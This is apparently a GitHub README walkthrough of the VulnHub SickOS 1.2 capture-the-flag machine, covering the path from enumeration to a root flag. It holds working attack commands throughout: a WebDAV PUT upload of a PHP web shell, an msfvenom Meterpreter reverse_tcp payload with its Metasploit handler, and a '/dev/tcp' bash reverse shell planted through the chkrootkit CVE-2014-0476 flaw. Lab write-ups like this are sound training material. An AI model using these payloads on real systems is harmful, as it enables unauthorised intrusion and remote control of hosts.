 # 🔓 Pen-testing SickOS 1.2 (Root Flag Capture)

**This is a walkthrough of the SickOs 1.2 machine from VulnHub. It’s the sequel to SickOs 1.1, and it's both more challenging and more realistic, simulating situations one might encounter during a real-world penetration test**.

**✅ Final Directory Structure**
<pre>
  sickos-1.2/
├── README.md
├── sickos.md                  # Machine info file
├── exploit_breakdown.md
├── notes/
│   ├── nmap.txt
│   ├── enumeration.txt
│   ├── firewall_rules.txt
│   └── cronchk.txt
├── payloads/
│   ├── shell.php
│   ├── reverse_shell.php
│   └── meterpreter_command.txt
└── scripts/
    ├── execute.sh
    └── reverse_shell.sh

</pre>


**🔍 Discovery**

After downloading and running the machine, we see that it was assigned the IP 192.168.2.4. A port scan using nmap reveals ports 80 (HTTP) and 22 (SSH) open.
**>Target IP: 192.168.2.4**
**>Initial Scan:**
<pre>
nmap -A -T5 192.168.2.4
root@kali:~/sickos2# nmap -A -T5 192.168.2.4

PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 5.9p1 Debian 5ubuntu1.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
| 1024 66:8c:c0:f2:85:7c:6c:c0:f6:ab:7d:48:04:81:c2:d4 (DSA)
| 2048 ba:86:f5:ee:cc:83:df:a6:3f:fd:c1:34:bb:7e:62:ab (RSA)
|_ 256 a1:6c:fa:18:da:57:1d:33:2c:52:e4:ec:97:e2:9e:af (ECDSA)
80/tcp open http lighttpd 1.4.28
|_http-server-header: lighttpd/1.4.28
|_http-title: Site doesn't have a title (text/html).
OS details: Linux 3.2 - 4.6
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
</pre>
**Open Ports:**

**22/tcp:** SSH (OpenSSH 5.9p1)

**80/tcp:** HTTP (lighttpd 1.4.28)

**🌐 Web Enumeration**
We open a web browser, browse to http:/192.168.2.4 and see the following page

The usage of **dirb** reveals the listable directory **/test.**
<pre>
root@kali:~/sickos2# dirb http://192.168.2.4
---- Scanning URL: http://192.168.2.4/ ----
+ http://192.168.2.4/index.php (CODE:200|SIZE:163) 
==> DIRECTORY: http://192.168.2.4/test/

/index.php
/test/   ← Listable directory
</pre>

**WebDAV Detection**

Making a HTTP OPTIONS request on this path shows that **/test** looks like a WebDAV directory.

<pre>
root@kali:~/sickos2# curl --head -X OPTIONS 192.168.2.4/test/
HTTP/1.1 200 OK
DAV: 1,2
MS-Author-Via: DAV
Allow: PROPFIND, DELETE, MKCOL, PUT, MOVE, COPY, PROPPATCH, LOCK, UNLOCK
Allow: OPTIONS, GET, HEAD, POST
Content-Length: 0
Date: Thu, 15 Jun 2024 16:32:35 GMT
Server: lighttpd/1.4.28
</pre>
Supports PUT, confirming WebDAV is enabled.

**🛠 Exploitation (Web Shell Upload)**

We also note that the web server seems to accept HTTP PUT requests. The PUT method should allow us to upload arbitrary files on the web server. Let’s try it out. We create a file named **shell.php** containing the following code:
<pre>
<?php
echo shell_exec("id");
?>
</pre>

Upload using:
<pre>
  curl -v -X PUT -H "Expect: " 192.168.2.4/test/shell.php -d@shell.php
</pre>
Browse to /test/shell.php to confirm code execution as www-data.


**🧠 Reverse Shell with Meterpreter**

Now that we know we can upload arbitrary PHP scripts and execute them, let’s try to spawn a shell on the machine. We use msfvenom to generate the appropriate payload.
<pre>
  root@kali:~/sickos2# msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.2.3 LPORT=4444 > shell.php
</pre>
Note that 192.168.2.3 is the IP of our Kali box, where we will listen for the incoming reverse shell. Using the same command as before, we start by uploading this script on the server.
<pre>
root@kali:~/sickos2# curl -v -X PUT -H "Expect: " 192.168.2.4/test/shell.php -d@shell.php
</pre>

Start **Metasploit listener**:
To catch our reverse shell.
<pre>

root@kali:~/sickos2# msfconsole
msf > use exploit/multi/handler
msf exploit(handler) > set LHOST 192.168.2.3
LHOST => 192.168.2.3
msf exploit(handler) > set LPORT 4444
LPORT => 4444
msf exploit(handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf exploit(handler) > run

[*] Started reverse TCP handler on 192.168.2.3:4444 
[*] Starting the payload handler...

</pre>

Then, from another terminal, we trigger the PHP script that will connect back to our attacking machine.
<pre>
  root@kali:~/sickos2# curl 192.168.2.4/test/shell.php
  > ls
execute.php
shell.php
> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>

**📈 Privilege Escalation**

Check installed packages:**chkrootkit** is present (v0.49)

Vulnerable to **CVE-2014-0476**

Exploiting CVE-2014-0476
Write to /tmp/update:
<pre>
#!/bin/bash
bash -i >& /dev/tcp/192.168.2.3/443 0>&1
</pre>  
Make it executable:
<pre>
  chmod +x /tmp/update
</pre>
Start listener:
<pre>
  nc -lvp 443
</pre>
Since chkrootkit seems to only run daily, we expect to have to wait until the next day to obtain a root shell. Surprisingly, it comes to us after a few minutes like an early Christmas present
We can now get the flag, located in the /root directory.
**🏁 Getting the Flag**
<pre>
  cat /root/7d03aaa2bf93d80040f3f22ec6ad9d5a.txt
</pre>
**🔐 Firewall Rules (/root/newRule)**
<pre>
  INPUT: DROP (only allows ports 22, 80)
OUTPUT: DROP (allows outbound 443, 8080)
</pre>
**⏱ Chkrootkit Cron Schedule**
Despite being in /etc/cron.daily/, it also exists in:
<pre>
/etc/cron.d/chkrootkit  
</pre>

**Summary**
<pre>

| Phase           | Technique Used                               |
| --------------- | -------------------------------------------- |
| Enumeration     | Nmap, Dirb, WebDAV detection                 |
| Initial Access  | PUT PHP file upload                          |
| Reverse Shell   | Meterpreter + Netcat fallback                |
| Firewall Bypass | Netcat-based port scanning                   |
| PrivEsc         | CVE-2014-0476 via chkrootkit & cron abuse    |
| Root Access     | Netcat listener + shell script               |
| Flag            | `/root/7d03aaa2bf93d80040f3f22ec6ad9d5a.txt` |

</pre>


**📌 References**

CVE-2014-0476 - chkrootkit vulnerability

Payload generation - Metasploit Wiki

WebDAV PUT Exploits












